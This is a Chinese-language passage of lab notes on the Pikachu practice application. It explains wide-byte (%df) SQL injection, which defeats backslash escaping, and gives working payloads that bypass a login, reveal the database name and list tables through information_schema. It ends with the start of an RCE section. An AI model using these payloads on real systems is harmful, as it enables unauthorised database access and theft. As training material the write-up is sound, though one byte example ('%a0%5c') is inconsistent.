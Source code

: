 **漏洞利用**

id 的参数传入代码层，就会在 `’` 前加一个 `\`，由于采用的 URL 编码，所以产生的效果是
`%df%5c%27`

关键就在这，`%df` 会吃掉 `%5c`，形成一个新的字节,举个例子就是 `%d5` 遇到 `%5c` 会把 `%5c` 吃掉，形成 `%d5%5c` ，这个编码经过代码解码后会形成一个汉字 `"誠"`

因为 `%df` 的关系，`\` 的编码 `%5c` 被吃掉了，也就失去了转义的效果，直接被带入到 mysql 中，然后 mysql 在解读时无视了 `%a0%5c` 形成的新字节，那么单引号便重新发挥了效果

![image](../../../assets/img/安全/实验/pikachu/57.png) 这作者写提示就 TM 玩似的，太不友好了

- 测试payload: `lili%df' or 1=1 #`
- 测试payload: `lili%df%27%20or%201=1%23`

- 爆库payload: `lili%df' union select user(),database() #`

- 爆表payload: `lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![image](../../../assets/img/安全/实验/pikachu/58.png)

- 后面略

---

## RCE

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。
一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口
